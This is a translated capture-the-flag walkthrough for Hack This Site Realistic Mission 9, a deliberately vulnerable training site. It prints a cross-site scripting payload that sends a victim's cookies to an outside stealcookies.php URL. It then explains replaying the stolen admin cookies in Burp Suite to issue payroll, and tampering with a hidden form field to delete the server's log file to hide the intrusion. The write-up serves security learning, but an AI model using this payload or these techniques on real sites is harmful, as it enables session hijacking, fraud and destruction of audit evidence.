# 黑掉这个网站:现实的网络任务——第 9 级

> 原文：<https://medium.com/geekculture/hack-this-site-realistic-web-mission-level-9-bb58a80ff69d?source=collection_archive---------11----------------------->



Hack This Site: Realistic Web Mission — Level 9

感谢你的突然出现，今天我们要看的是[黑掉这个网站](https://hackthissite.org/)现实网络任务 9。换句话说，我们要搞垮软件巨头蹩脚软件。当员工生产劣质软件时，它将不再勒索他们。这次任务非常有趣，完成的过程比以前的任务更加曲折。为了完成这个任务，我们将使用 javascript 来窃取 cookies。此外，我们还必须操纵我们的 cookies 来访问工资系统并支付员工工资。完成后，我们必须操作一个隐藏的表单参数来删除日志文件。如果你没有看过我在现实系列上的其他帖子，你可以在这里看到:[第一部分](https://haxez.org/2021/09/hack-this-site-realistic-web-missions-level-1/)、[第二部分](https://haxez.org/2021/09/hack-this-site-realistic-web-mission-level-2/)、[第三部分](https://haxez.org/2021/09/hack-this-site-realistic-web-mission-level-3/)、[第四部分](https://haxez.org/2021/09/hack-this-site-realistic-web-mission-level-4/)、[第五部分](https://haxez.org/2021/09/hack-this-site-realistic-web-mission-level-5/)、[第六部分](https://haxez.org/2021/09/hack-this-site-realistic-web-mission-level-6/)、[第七部分](https://haxez.org/2021/10/hack-this-site-realistic-web-mission-level-7/)和[第八部分](https://haxez.org/2021/10/hack-this-site-realistic-web-mission-level-8/)。



Crappysoft Software

# 介绍

可以看到，我们收到了一个叫 R·康纳的人发来的信息。总而言之，客户解释说，他们的老板已经停止支付他们的工资，他们的租金到期了。鉴于这几点，他们问我们是否可以侵入在线工资系统并处理他们的付款。因此，他们提供了登录凭证，希望能有所帮助。



Message From R Conner

# 探索 Web 应用程序

该应用程序有一个相当基本的设计。值得注意的是，顶部有一个标题，左侧有一个导航菜单。此外，导航菜单包含一个到主页、邮件列表、联系人和演示的链接。邮件列表允许访问者提交他们的电子邮件地址。此外，联系表单确实如 tin 上所说的那样，它允许访问者发送电子邮件。演示页面允许访问者下载他们软件的演示。



Web Application

# 劫持网络 Cookies

客户给了我们他们的凭证，让我们登录看看发生了什么。不出所料，一旦我们登录，我们有许多新的选项。私信，发工资。单击“支付工资”链接会产生一条错误消息，提示我们需要成为管理员。不管怎样，我们需要窃取管理员的凭证。转到私人消息部分，我们可以选择向所有者/管理员发送私人消息。

为了进入管理员的账户，我们需要窃取他们的 cookies。出于这个目的，我们通常需要将一个 PHP 脚本部署到一个远程 web 服务器。当然，GitHub 上有很多可用的，但是部署一个超出了本演练的范围。也许在将来的某个时候。通过向我们的受害者发送以下 Javascript，我们正在执行跨站点脚本攻击，该攻击窃取 cookies 并将它们发送到我们的恶意域。

```
javascript:void(window.location='https://haxez.org/stealcookies.php?'+document.cookie);
```

通过向受害者发送上述脚本，您将收到一个通知，告知您受害者的 cookies。



Cross Site Scripting — Cookie Stealing

# 操纵网络 Cookies

现在我们有了受害者的饼干，我们可以用它们进入工资系统。为了做到这一点，我们需要直接在浏览器中修改 cookies，或者使用 Burp Suite 这样的工具来拦截和修改它们。为了演示，下图显示了一个被拦截的对 payday.php 页面的请求。它显示 cookie`strUsername`和`strPassword`已经被修改为从 cookie 窃取者漏洞中接收到的那些。转发请求。



Burp Suite — Request Intercepted

# 支付人员

在某种程度上，直接在浏览器中修改 cookies 会更容易。通过 Burp Suite 实现这一点需要您为每个请求修改 cookies。例如，我们操纵 cookies 来访问工资页面，但是我们需要截取并再次修改它们来提交支付按钮，如下图所示。不修改 cookie 将从您的浏览器发送默认的 cookie，即客户端的 cookie。



Web Application — Pay Personnel

# 掩盖我们的踪迹

既然我们已经成功地将平衡带回了康纳的世界，我们需要隐藏所有我们在这里的证据。在浏览了网站一会儿之后，我发现在 files 目录上启用了目录列表。此外，该目录包含下载、日志和邮件列表目录。这些信息对于利用 web 应用程序删除日志文件来说是无价的。我们不能通过目录列表删除它们，但也许我们可以找到另一种方法。



Directory Listing

回到申请邮件列表页面，我们可以看到一条消息。该消息说邮件列表检查列表中没有“@”符号的地址并删除它们。这似乎是一个活跃的功能，所以也许我们可以利用它。



Web Application — Mailing List

# 利用邮件列表

记住这一点，让我们查看应用程序邮件列表的源代码，并弄清楚发生了什么。我们可以从下图中看到，一个 post 请求被提交到 subscribemailing.php 页面。我们还可以设置一个隐藏的表单值来指定邮件列表的路径。有一个可见的表单，让用户包括他们的电子邮件地址。如果我们提交一个不带“@”符号的电子邮件地址，并将隐藏表单值更改为日志文件，会发生什么情况？



Web Application — Page Source

你可以直接通过你的浏览器的开发控制台来实现，或者像我一样通过 Burp Suite 来实现。使用 Burp Suite 可以帮助挫败一些客户端检查(比如对“@”符号的检查)。首先，您需要打开 intercept，并向邮件列表填充和提交一个字符串。其次，您需要修改请求，将地址从 addressess.txt 文件更改为/files/logs/logs.txt 文件。最后，您需要转发请求。这应该能让你完成任务。



Congratulations